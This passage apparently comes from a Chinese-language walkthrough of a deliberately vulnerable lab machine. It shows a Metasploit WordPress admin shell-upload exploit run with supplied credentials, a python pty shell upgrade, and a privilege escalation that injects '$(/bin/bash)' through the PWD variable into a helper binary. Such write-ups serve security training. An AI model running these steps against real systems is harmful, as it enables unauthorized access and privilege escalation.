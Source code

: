 
然后就可以用msf拿到shell了

```shell
root@kali:~# msfdb start
[+] Starting database
root@kali:~# msfconsole -q
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 192.168.31.166
rhosts => 192.168.31.166
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rport 65535
rport => 65535
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /phpcms
targeturi => /phpcms
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username notadmin
username => notadmin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Pa$$w0rd13!&
password => Pa$$w0rd13!&
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit
meterpreter > shell
```

然后用python脚本获得我们熟悉的交互式shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

shell玩了一下

进/home 有两个文件夹 doe和john

doe里有个iteasy 和不能读的local.txt以及似乎没什么敏感信息的noteFromAdmin

itseasy作用是输出当前目录也就类似echo PWD

john里有个user.txt也读不了

怎么办....

既然itseasy能echo

拼接一个$(/bin/sh)试试

好像不会正常回显。。。。

试试/bin/bash

这回可以了

```shell
www-data@literallyvulnerable:$ export PWD=\$\(/bin/bash\)
export PWD=\$\(/bin/bash\)
www-data@literallyvulnerable:$(/bin/bash)$ /home/doe/itseasy
/home/doe/itseasy
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh: 0: getcwd() failed: No such file or directory
john@literallyvulnerable:$ 
```

